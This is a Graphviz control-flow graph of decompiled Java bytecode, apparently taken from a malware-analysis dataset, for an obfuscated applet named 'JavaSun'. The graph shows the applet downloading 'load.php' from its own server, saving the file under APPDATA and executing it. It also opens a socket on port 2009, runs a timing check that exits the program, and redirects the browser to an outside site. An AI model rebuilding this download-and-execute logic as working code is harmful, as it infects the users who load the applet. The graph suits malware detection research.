 digraph "" {
    "r0 := @this: JavaSun"
    "new java.net.Socket"
    "r0 := @this: JavaSun"->"new java.net.Socket";
    "dup1.r"
    "new java.net.Socket"->"dup1.r";
    "store.r r4"
    "dup1.r"->"store.r r4";
    "goto staticinvoke <java.lang.System: long currentTimeMillis()>"
    "store.r r4"->"goto staticinvoke <java.lang.System: long currentTimeMillis()>";
    "staticinvoke <java.lang.System: long currentTimeMillis()>"
    "goto staticinvoke <java.lang.System: long currentTimeMillis()>"->"staticinvoke <java.lang.System: long currentTimeMillis()>";
    "store.l l4"
    "staticinvoke <java.lang.System: long currentTimeMillis()>"->"store.l l4";
    "staticget <WgroiAzIgc: boolean bvajgJotsh>"
    "store.l l4"->"staticget <WgroiAzIgc: boolean bvajgJotsh>";
    "ifeq staticget <WgroiAzIgc: boolean ZGwWNTVbwc>"
    "staticget <WgroiAzIgc: boolean bvajgJotsh>"->"ifeq staticget <WgroiAzIgc: boolean ZGwWNTVbwc>";
    "ifeq staticget <WgroiAzIgc: boolean ZGwWNTVbwc>"->"staticget <WgroiAzIgc: boolean bvajgJotsh>";
    "push 1"
    "staticget <WgroiAzIgc: boolean bvajgJotsh>"->"push 1";
    "ifcmpne.b return"
    "push 1"->"ifcmpne.b return";
    "staticget <WgroiAzIgc: boolean ZGwWNTVbwc>"
    "ifcmpne.b return"->"staticget <WgroiAzIgc: boolean ZGwWNTVbwc>";
    "staticget <WgroiAzIgc: boolean ZGwWNTVbwc>"->"push 1";
    "ifcmpne.b staticinvoke <java.lang.System: long currentTimeMillis()>"
    "push 1"->"ifcmpne.b staticinvoke <java.lang.System: long currentTimeMillis()>";
    "push \"APPDATA\""
    "ifcmpne.b staticinvoke <java.lang.System: long currentTimeMillis()>"->"push \"APPDATA\"";
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"
    "push \"APPDATA\""->"staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>";
    "staticinvoke <JavaSun: java.lang.String dEcmeNkhaL()>"
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"->"staticinvoke <JavaSun: java.lang.String dEcmeNkhaL()>";
    "staticput <JavaSun: java.lang.String JYnhkeWQWC>"
    "staticinvoke <JavaSun: java.lang.String dEcmeNkhaL()>"->"staticput <JavaSun: java.lang.String JYnhkeWQWC>";
    "new java.net.URL"
    "staticput <JavaSun: java.lang.String JYnhkeWQWC>"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "new java.lang.StringBuilder"
    "dup1.r"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "load.r r0"
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r0";
    "virtualinvoke <JavaSun: java.net.URL getCodeBase()>"
    "load.r r0"->"virtualinvoke <JavaSun: java.net.URL getCodeBase()>";
    "virtualinvoke <java.net.URL: java.lang.String toString()>"
    "virtualinvoke <JavaSun: java.net.URL getCodeBase()>"->"virtualinvoke <java.net.URL: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "virtualinvoke <java.net.URL: java.lang.String toString()>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"load.php\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"load.php\"";
    "push \"load.php\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>";
    "store.r r3"
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"->"store.r r3";
    "staticget <JavaSun: java.lang.String JYnhkeWQWC>"
    "store.r r3"->"staticget <JavaSun: java.lang.String JYnhkeWQWC>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"
    "staticget <JavaSun: java.lang.String JYnhkeWQWC>"->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r r4";
    "load.r r3"
    "store.r r4"->"load.r r3";
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"
    "load.r r3"->"virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>";
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"->"store.r r3";
    "new java.io.FileOutputStream"
    "store.r r3"->"new java.io.FileOutputStream";
    "store.r $r22"
    "new java.io.FileOutputStream"->"store.r $r22";
    "load.r $r22"
    "store.r $r22"->"load.r $r22";
    "load.r r4"
    "load.r $r22"->"load.r r4";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "load.r r4"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "push 1024"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"push 1024";
    "newarray"
    "push 1024"->"newarray";
    "store.r r7"
    "newarray"->"store.r r7";
    "store.r r7"->"load.r r3";
    "load.r r7"
    "load.r r3"->"load.r r7";
    "virtualinvoke <java.io.InputStream: int read(byte[])>"
    "load.r r7"->"virtualinvoke <java.io.InputStream: int read(byte[])>";
    "store.i i5"
    "virtualinvoke <java.io.InputStream: int read(byte[])>"->"store.i i5";
    "store.i i5"->"staticget <WgroiAzIgc: boolean ZGwWNTVbwc>";
    "staticget <WgroiAzIgc: boolean ZGwWNTVbwc>"->"push 1";
    "ifcmpne.b load.r r3"
    "push 1"->"ifcmpne.b load.r r3";
    "load.i i5"
    "ifcmpne.b load.r r3"->"load.i i5";
    "ifle load.r r3"
    "load.i i5"->"ifle load.r r3";
    "ifle load.r r3"->"load.r $r22";
    "load.r $r22"->"load.r r7";
    "push 0"
    "load.r r7"->"push 0";
    "push 0"->"load.i i5";
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"
    "load.i i5"->"virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>";
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"load.r r3";
    "load.r r3"->"load.r r7";
    "load.r r7"->"virtualinvoke <java.io.InputStream: int read(byte[])>";
    "virtualinvoke <java.io.InputStream: int read(byte[])>"->"store.i i5";
    "goto load.i i5"
    "store.i i5"->"goto load.i i5";
    "store.r r0"
    "virtualinvoke <java.io.InputStream: int read(byte[])>"->"store.r r0";
    "goto return"
    "store.r r0"->"goto return";
    "return"
    "goto return"->"return";
    "ifle load.r r3"->"load.r r3";
    "virtualinvoke <java.io.InputStream: void close()>"
    "load.r r3"->"virtualinvoke <java.io.InputStream: void close()>";
    "virtualinvoke <java.io.InputStream: void close()>"->"load.r $r22";
    "virtualinvoke <java.io.FileOutputStream: void close()>"
    "load.r $r22"->"virtualinvoke <java.io.FileOutputStream: void close()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "virtualinvoke <java.io.FileOutputStream: void close()>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"load.r r4";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "load.r r4"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "pop"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "pop"->"load.r r0";
    "virtualinvoke <JavaSun: java.applet.AppletContext getAppletContext()>"
    "load.r r0"->"virtualinvoke <JavaSun: java.applet.AppletContext getAppletContext()>";
    "virtualinvoke <JavaSun: java.applet.AppletContext getAppletContext()>"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "push \"http://www.istakeu.com/\""
    "dup1.r"->"push \"http://www.istakeu.com/\"";
    "push \"http://www.istakeu.com/\""->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "push \"_self\""
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"push \"_self\"";
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL,java.lang.String)> 2"
    "push \"_self\""->"interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL,java.lang.String)> 2";
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL,java.lang.String)> 2"->"goto return";
    "ifcmpne.b staticinvoke <java.lang.System: long currentTimeMillis()>"->"staticinvoke <java.lang.System: long currentTimeMillis()>";
    "load.l l4"
    "staticinvoke <java.lang.System: long currentTimeMillis()>"->"load.l l4";
    "sub.l"
    "load.l l4"->"sub.l";
    "push 1000L"
    "sub.l"->"push 1000L";
    "div.l"
    "push 1000L"->"div.l";
    "push 10L"
    "div.l"->"push 10L";
    "cmp.l"
    "push 10L"->"cmp.l";
    "ifne staticget <WgroiAzIgc: boolean bvajgJotsh>"
    "cmp.l"->"ifne staticget <WgroiAzIgc: boolean bvajgJotsh>";
    "ifne staticget <WgroiAzIgc: boolean bvajgJotsh>"->"push 1";
    "staticinvoke <java.lang.System: void exit(int)>"
    "push 1"->"staticinvoke <java.lang.System: void exit(int)>";
    "goto staticget <WgroiAzIgc: boolean bvajgJotsh>"
    "staticinvoke <java.lang.System: void exit(int)>"->"goto staticget <WgroiAzIgc: boolean bvajgJotsh>";
    "dup1.r"->"store.r r4";
    "staticinvoke <JavaSun: java.lang.String LjxSzAjsaD()>"
    "dup1.r"->"staticinvoke <JavaSun: java.lang.String LjxSzAjsaD()>";
    "push 2009"
    "staticinvoke <JavaSun: java.lang.String LjxSzAjsaD()>"->"push 2009";
    "specialinvoke <java.net.Socket: void <init>(java.lang.String,int)>"
    "push 2009"->"specialinvoke <java.net.Socket: void <init>(java.lang.String,int)>";
    "staticput <JavaSun: java.net.Socket JkTuuJgoPK>"
    "specialinvoke <java.net.Socket: void <init>(java.lang.String,int)>"->"staticput <JavaSun: java.net.Socket JkTuuJgoPK>";
    "new java.lang.Thread"
    "staticput <JavaSun: java.net.Socket JkTuuJgoPK>"->"new java.lang.Thread";
    "new java.lang.Thread"->"dup1.r";
    "new WgroiAzIgc"
    "dup1.r"->"new WgroiAzIgc";
    "new WgroiAzIgc"->"dup1.r";
    "staticget <JavaSun: java.net.Socket JkTuuJgoPK>"
    "dup1.r"->"staticget <JavaSun: java.net.Socket JkTuuJgoPK>";
    "specialinvoke <WgroiAzIgc: void <init>(java.net.Socket)>"
    "staticget <JavaSun: java.net.Socket JkTuuJgoPK>"->"specialinvoke <WgroiAzIgc: void <init>(java.net.Socket)>";
    "specialinvoke <java.lang.Thread: void <init>(java.lang.Runnable)>"
    "specialinvoke <WgroiAzIgc: void <init>(java.net.Socket)>"->"specialinvoke <java.lang.Thread: void <init>(java.lang.Runnable)>";
    "staticput <JavaSun: java.lang.Thread HzULypcCNw>"
    "specialinvoke <java.lang.Thread: void <init>(java.lang.Runnable)>"->"staticput <JavaSun: java.lang.Thread HzULypcCNw>";
    "staticget <JavaSun: java.lang.Thread HzULypcCNw>"
    "staticput <JavaSun: java.lang.Thread HzULypcCNw>"->"staticget <JavaSun: java.lang.Thread HzULypcCNw>";
    "virtualinvoke <java.lang.Thread: void start()>"
    "staticget <JavaSun: java.lang.Thread HzULypcCNw>"->"virtualinvoke <java.lang.Thread: void start()>";
    "virtualinvoke <java.lang.Thread: void start()>"->"goto staticinvoke <java.lang.System: long currentTimeMillis()>";
}
